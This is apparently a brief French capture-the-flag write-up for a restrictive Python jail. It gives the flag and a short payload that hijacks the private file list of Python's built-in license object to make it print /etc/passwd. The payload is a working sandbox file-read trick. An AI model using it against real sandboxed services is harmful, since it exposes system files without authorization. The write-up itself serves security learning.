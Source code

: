 # flag: LABO{Mathi4s_w0uld_b_Pr0ud}


## tldr;
pyjail assez classique mais très restrictive qui nous oblige a abuse des builtins python (literallement)
```
license._Printer__filenames.pop()
license._Printer__filenames.pop()
license._Printer__filenames.pop()
license._Printer__filenames.pop()
license._Printer__filenames.pop()
license._Printer__filenames.append('/etc/passwd')
license._Printer__lines=False
license()
```
